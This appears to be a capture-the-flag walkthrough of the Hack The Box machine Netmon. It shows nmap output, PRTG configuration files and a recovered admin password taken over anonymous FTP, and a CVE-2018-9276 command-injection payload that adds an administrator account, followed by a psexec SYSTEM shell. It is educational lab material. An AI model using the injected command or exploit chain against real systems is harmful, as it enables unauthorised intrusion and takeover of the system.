 # Exercise: Enumerating vulnerabilities caused by default applications in the box Netmon

In this machine, the application PRTG Network Monitor has been installed and the demo features have not been removed or disabled. The vulnerability here allows remote command execution through a demo feature in the product.

Scanning the machine with nmap you get the following output:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Netmon]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- netmon.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19 12:18AM 1024 .rnd
| 02-25-19 10:15PM <DIR> inetpub
| 07-16-16 09:18AM <DIR> PerfLogs
| 02-25-19 10:56PM <DIR> Program Files
| 02-03-19 12:28AM <DIR> Program Files (x86)
| 02-03-19 08:08AM <DIR> Users
|_02-25-19 11:49PM <DIR> Windows
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; 
CPE: cpe:/o:microsoft:windows
```

We can see that the box is likely running Windows Server 2008 R2 and that it allows anonymous FTP access to the entire main drive. The other thing to note is that there is a web server on port 80 which is running the application PRTG Network Monitor.

The website offers a login page

![PRTG Login Page](../.gitbook/assets/14%20%282%29.png)

Searching the internet for information about PRTG and where it may store configuration information, you find that configuration information should be in c:\ProgramData\Paessler\PRTG Network Monitor \(alternatively, a quick bit of searching in FTP uncovers this\). There you find some configuration files, including what looks like a backup.

```bash
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
10-22-20 10:46PM <DIR> Configuration Auto-Backups
10-22-20 10:05PM <DIR> Log Database
02-03-19 12:18AM <DIR> Logs (Debug)
02-03-19 12:18AM <DIR> Logs (Sensors)
02-03-19 12:18AM <DIR> Logs (System)
10-23-20 12:00AM <DIR> Logs (Web Server)
10-22-20 10:10PM <DIR> Monitoring Database
02-25-19 10:54PM 1189697 PRTG Configuration.dat
02-25-19 10:54PM 1189697 PRTG Configuration.old
07-14-18 03:13AM 1153755 PRTG Configuration.old.bak
10-23-20 07:10AM 1723779 PRTG Graph Data Cache.dat
02-25-19 11:00PM <DIR> Report PDFs
02-03-19 12:18AM <DIR> System Information Database
02-03-19 12:40AM <DIR> Ticket Database
02-03-19 12:18AM <DIR> ToDo Database
```

We can use mget PRTG\* to copy all of the configuration files to our local machine. Looking at "PRTG Configuration.old.bak" first, you find the following information:

```text
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
```

Trying this on the login page doesn't work but looking at the format of the password and updating the year to PrTg@dmin2019 gets us in!

Once in, you can see that the version of PRTG is 18.1.37.13946, which is the same information that nmap gave us in the output above. Looking around the app, you can see the release notes for the application with a warning about the current version

![Release notes for version 18.4.47.1972 in PRTG application](../.gitbook/assets/15%20%282%29.png)

.This particular vulnerability doesn't really help us \(although it may have been a reason for the plain text password in the backup configuration file?\). So you need to look for other vulnerabilities. Searching for vulnerabilities for PRTG, you find a highly critical vulnerability CVE-2018-9276[\[6\]](exercise-enumerating-vulnerabilities-caused-by-default-applications-in-the-box-netmon.md) that allows remote code execution. The vulnerability is related to a demo script that is included with the product that is vulnerable to command injection. When creating a notification in the system, one action that can be selected is to run an executable and of the two options provided one is a PowerShell script OutFile.ps1. This takes a parameter of a file name but if you add a "\|" after the file name, you can add any other PowerShell commands. you can then create a new user and add them to the administrator group using the parameter:

```bash
afile.txt | net user rin password123! /add ; net localgroup administrators rin /add
```

To create a Notification, you go into the menu Setup &gt; Account Settings &gt; Notifications

![Notifications page in Account Settings in PRTG](../.gitbook/assets/16.png)

.Clicking the + button to create a new notification and leave everything as default but select Execute Program:

![Creating a Notification in PRTG](../.gitbook/assets/17.png)

Select the Demo.exe notification outfile.ps1 and enter our crafted command as the Parameter. In the Notifications list, click the menu button on the right and then the bell icon from the popup menu

![Notifications list after creating notification](../.gitbook/assets/18%20%281%29%20%281%29.png)

Once you have done this, you can login using Impacket's psexec.py

```bash
┌─[rin@parrot]─[~/boxes/Netmon/CVE-2018-9276]
└──╼ $psexec.py rin:'password123!'@10.10.10.152
Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth 
Corporation
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file mirjPmkK.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service NeIi on 10.10.10.152.....
[*] Starting service NeIi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```

We could also have logged in using evil-winrm as the user "rin" or instead of creating a user, run a PowerShell command to get a reverse shell.

